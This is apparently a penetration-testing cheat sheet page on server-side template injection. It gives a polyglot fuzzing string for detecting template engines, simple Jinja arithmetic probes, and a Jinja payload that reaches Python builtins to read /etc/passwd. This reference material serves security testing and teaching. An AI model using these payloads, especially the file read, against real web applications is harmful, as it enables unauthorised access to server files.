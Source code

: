 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SSTI (Server Side Template Injection)

## Identify the vulnerability

_<mark style="color:green;">Polyglot</mark>_ is commonly used in template expressions fuzzing. If an error occurs it might be vulnerable and also can be to identify the template engine in use.

```
${{<%[%'"}}%\.
```

## Basic Injection

### Jinja - mathematical equation

```django
{{7*7}}
{{7*'7'}}
{{4*4}}[[5*5]]
```

### Jinja - file read

```django
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

